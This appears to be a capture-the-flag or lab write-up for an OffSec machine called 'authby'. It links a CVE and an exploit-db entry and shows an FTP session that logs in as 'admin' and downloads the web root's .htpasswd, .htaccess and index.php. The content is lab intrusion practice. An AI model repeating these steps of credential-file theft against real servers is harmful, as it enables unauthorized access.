 http://authby.offsec:242/ --> require passwd

https://nvd.nist.gov/vuln/detail/CVE-2011-4717
https://www.exploit-db.com/exploits/18235 --> delete folder...

ftp> cd accounts
250 CWD Command successful.
ftp> ls
229 Entering Extended Passive Mode (|||2104|)
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Aug 03  2024 backup
----------   1 root     root          764 Aug 03  2024 acc[Offsec].uac
----------   1 root     root         1034 Oct 20 23:10 acc[anonymous].uac
----------   1 root     root          926 Aug 03  2024 acc[admin].uac
226 Closing data connection.
ftp> users
?Invalid command.
ftp> user
(username) admin
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2105|)
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> pwd
Remote directory: /
ftp> get index.php
local: index.php remote: index.php
229 Entering Extended Passive Mode (|||2120|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|    76      720.57 KiB/s    00:00 ETA
226 Closing data connection.
76 bytes received in 00:00 (1.13 KiB/s)
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
229 Entering Extended Passive Mode (|||2121|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|    45      201.58 KiB/s    00:00 ETA
226 Closing data connection.
45 bytes received in 00:00 (0.63 KiB/s)
ftp> get .htaccess
local: .htaccess remote: .htaccess
229 Entering Extended Passive Mode (|||2122|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|   161        1.78 MiB/s    00:00 ETA
226 Closing data connection.
161 bytes received in 00:00 (2.34 KiB/s)
